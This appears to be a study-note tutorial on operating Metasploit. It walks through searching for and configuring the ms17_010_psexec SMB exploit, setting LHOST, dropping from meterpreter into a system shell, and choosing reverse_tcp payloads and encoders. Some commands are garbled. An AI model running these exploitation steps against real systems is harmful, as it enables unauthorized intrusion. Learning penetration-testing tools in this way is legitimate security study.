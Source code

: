 ### Metasploit:Exploits module

To use metaspoite we can manually start it or we can write “msfconsole” in the terminal.
->usually metasploit directory will be found in /usr/share/metasploit-framework

-> Linux command can be use in msf terminal
->we can use help to get manual of metasploit in msf terminal
->we can search by using “search” keyword following search term
　　example: search  exploits
　　which will be used to find all the exploits in metasploit


##### How to find specific exploits for specific  vulnernabllity?

->we can use nmap to enumeratation of the target such as os,services,ports etc.

then we can use the following command in msf terminal.

->”search type:exploit platform:windows name:eternalromance”

where exploits is the module name(metasploit has 7 modules like exploit,auxiliary,encoders,evasion,post,payload,nops etc),eternalromance is the exploit name.

##### How to use specific  exploits in metasploit?


->we can use “use” key word to use a specific exploits following by the exploits name or directory or number of the exploits.

example:use 4136

->we can check which options are required to run that exploits by using “options” key word after the exploit number is set or when we in exploit directory.

example :msf6 exploit(windows/smb/ms17_010_psexec) > show 

->we need to set options which is required yes.

->we can use “set” key word to set the required options following by options_name and options value.

example: msf6 exploit(windows/smb/ms17_010_psexec) > set lhost 10.10.10.14

->after setting the all required value we can run the exploits using “run” command.

example:msf6 exploit(windows/smb/ms17_010_psexec) > run

-> After finding the meterpreter shell we can get into system shell by using "shell" command
**example**: meterpreter> shell
**-> we can see module information by using "info" command" **
**example:msf6 exploit(windows/smb/ms17_010_psexec) > info**

###MSF-targets

--> we can see the targets by using "show targets" but before that we have to select module.
example:msf6 exploit(windows/smb/ms17_010_psexec) > show targets
[we have to see the module info by using "info" command after selecting the module.This module info is very important for selecting targets especially Description]

### MSF-Payloads

we can select payloads ,if we don't want to use  the default payloads.After selecting exploit module, we can select payloads or without selecting exploit we also can select payloads.
To see all payloads we can use-->"show payloads" 
We can grep to easily identify desired payloads--> "grep meterpreter grep reverse_tcp show payloads"

### MSF-Encoder

we can make our payloads more complex using encodor.To use encoder we have to select first  exploit module and payloads.Then we use "show encoder" command to see which encode are available for that
payloads.
example:"msf6 exploit(ms09_050_smb2_negotiate_func_index) > show encoders"
we can use encoder with msfvenom which we will see following text.

### MSF-Database

To use database we first need to ensure that the postgreSQL  server is up.
we can check server status by using -> "sudo service postgresql status"  if it is inactive or dead.We can use this command to start the server ->"sudo systemctl start postgresql" 
we can initiate the database ->" sudo msfdb init"
To connect database we can use->"sudo msfdb run"
Database options->"help database"
Workspace is similar like a folder in project.we can create database workspace by using -> "workspace -a Target_1" where "a" means add and "Target_1" is the created workspace.
we can also delete workspace by -> "workspace -d Target_1" this.

we can see help options by ->help database
we can see workspace help by -> workspace -h


### Sessions

It is used to manage multiple sessions at the same time.
we can see currently  active sessions by using "session" command.
example:"msf6 exploit(windows/smb/psexec_psh) > sessions"
we can run a session in background by using:"ctrl+z"
interacting with sessions: we can use ->" sessions -i [no.]" to open specific sessions


### Jobs

job is similar like sessions;where we can lists currently running jobs.Usually we use it to see which port is using right now.
we can open jobs help menu by ->"jobs -h"
example:"msf6 exploit(multi/handler) > jobs -h"
Listing Running Jobs:"msf6 exploit(multi/handler) > jobs -l"



